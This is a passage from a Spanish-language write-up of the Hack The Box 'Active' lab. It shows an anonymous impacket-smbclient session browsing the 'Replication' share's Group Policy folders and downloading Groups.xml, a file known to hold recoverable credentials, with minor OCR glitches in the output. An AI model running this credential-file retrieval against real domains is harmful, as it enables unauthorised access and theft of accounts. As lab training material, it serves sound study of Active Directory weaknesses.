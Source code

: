 - Users: A los que no tengo permiso alguno, pero posiblemente obtenga acceso con otro usuario.
Por lo que voy a enumerar el recurso "Replication"
~~~bash
impacket-smbclient active.htb/''@10.10.10.100
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Replication
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 active.htb
# cd active.htb
# ls
cd drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 DfsrPrivate
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Policies
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 scripts
# cd Policies
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 {31B2F340-016D-11D2-945F-00C04FB984F9}
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 {6AC1786C-016F-11D2-945F-00C04fB984F9}
# cd {31B2F340-016D-11D2-945F-00C04FB984F9}
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-         23  Sat Jul 21 06:38:11 2018 GPT.INI
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Group Policy
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 MACHINE
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 USER
# cd MACHINE
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Microsoft
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Preferences
-rw-rw-rw-       2788  Sat Jul 21 06:38:11 2018 Registry.pol
cd# cd Preferences
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Groups
# cd Groups
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
-rw-rw-rw-        533  Sat Jul 21 06:38:11 2018 Groups.xml
# get Groups.xml
# cd ..
# cd ..
# cd Microsoft
# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 Windows NT
# cd Windows NT
l# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 SecEdit
# cd SecEdit
~~~